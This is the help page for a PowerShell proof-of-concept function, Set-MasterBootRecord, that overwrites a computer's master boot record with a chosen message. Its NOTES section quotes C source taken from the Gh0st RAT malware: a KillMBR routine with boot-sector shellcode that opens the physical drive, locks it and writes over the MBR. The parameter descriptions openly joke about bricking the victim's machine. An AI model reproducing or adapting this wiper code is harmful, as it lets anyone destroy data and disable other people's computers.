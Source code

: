 # Set-MasterBootRecord

## SYNOPSIS
Proof of concept code that overwrites the master boot record with the
message of your choice.

Powerscript Function: Set-MasterBootRecord  
Author: Matthew Graeber (@mattifestation) and Chris Campbell (@obscuresec)  
License: BSD 3-Clause  
Required Dependencies: None  
Optional Dependencies: None

## SYNTAX

```
Set-MasterBootRecord [[-BootMessage] <String>] [-RebootImmediately] [-Force] [-WhatIf] [-Confirm]
```

## DESCRIPTION
Set-MasterBootRecord is proof of concept code designed to show that it is
possible with PowerShell to overwrite the MBR.
This technique was taken
from a public malware sample.
This script is inteded solely as proof of
concept code.

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Set-MasterBootRecord -BootMessage 'This is what happens when you fail to defend your network. #CCDC'
```

## PARAMETERS

### -BootMessage
Specifies the message that will be displayed upon making your computer a brick.

```yaml
Type: String
Parameter Sets: (All)
Aliases: 

Required: False
Position: 1
Default value: Stop-Crying; Get-NewHardDrive
Accept pipeline input: False
Accept wildcard characters: False
```

### -RebootImmediately
Reboot the machine immediately upon overwriting the MBR.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: 

Required: False
Position: Named
Default value: False
Accept pipeline input: False
Accept wildcard characters: False
```

### -Force
Suppress the warning prompt.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: 

Required: False
Position: Named
Default value: False
Accept pipeline input: False
Accept wildcard characters: False
```

### -WhatIf
Shows what would happen if the cmdlet runs.
The cmdlet is not run.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: wi

Required: False
Position: Named
Default value: None
Accept pipeline input: False
Accept wildcard characters: False
```

### -Confirm
Prompts you for confirmation before running the cmdlet.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: cf

Required: False
Position: Named
Default value: None
Accept pipeline input: False
Accept wildcard characters: False
```

## INPUTS

## OUTPUTS

## NOTES
Obviously, this will only work if you have a master boot record to
overwrite.
This won't work if you have a GPT (GUID partition table).

This code was inspired by the Gh0st RAT source code seen here (acquired from: http://webcache.googleusercontent.com/search?q=cache:60uUuXfQF6oJ:read.pudn.com/downloads116/sourcecode/hack/trojan/494574/gh0st3.6_%25E6%25BA%2590%25E4%25BB%25A3%25E7%25A0%2581/gh0st/gh0st.cpp__.htm+&cd=3&hl=en&ct=clnk&gl=us):

// CGh0stApp message handlers

unsigned char scode\[\] =
"\xb8\x12\x00\xcd\x10\xbd\x18\x7c\xb9\x18\x00\xb8\x01\x13\xbb\x0c"
"\x00\xba\x1d\x0e\xcd\x10\xe2\xfe\x49\x20\x61\x6d\x20\x76\x69\x72"
"\x75\x73\x21\x20\x46\x75\x63\x6b\x20\x79\x6f\x75\x20\x3a\x2d\x29";

int CGh0stApp::KillMBR()
{
	HANDLE hDevice;
	DWORD dwBytesWritten, dwBytesReturned;
	BYTE pMBR\[512\] = {0};

	// ????MBR
	memcpy(pMBR, scode, sizeof(scode) - 1);
	pMBR\[510\] = 0x55;
	pMBR\[511\] = 0xAA;

	hDevice = CreateFile
		(
		"\\\\\\\\.\\\\PHYSICALDRIVE0",
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		0,
		NULL
		);
	if (hDevice == INVALID_HANDLE_VALUE)
		return -1;
	DeviceIoControl
		(
		hDevice,
		FSCTL_LOCK_VOLUME,
		NULL,
		0,
		NULL,
		0,
		&dwBytesReturned,
		NUL
		)
	// ??????
	WriteFile(hDevice, pMBR, sizeof(pMBR), &dwBytesWritten, NULL);
	DeviceIoControl
		(
		hDevice,
		FSCTL_UNLOCK_VOLUME,
		NULL,
		0,
		NULL,
		0,
		&dwBytesReturned,
		NULL
		);
	CloseHandle(hDevice);

	ExitProcess(-1);
	return 0;
}

## RELATED LINKS

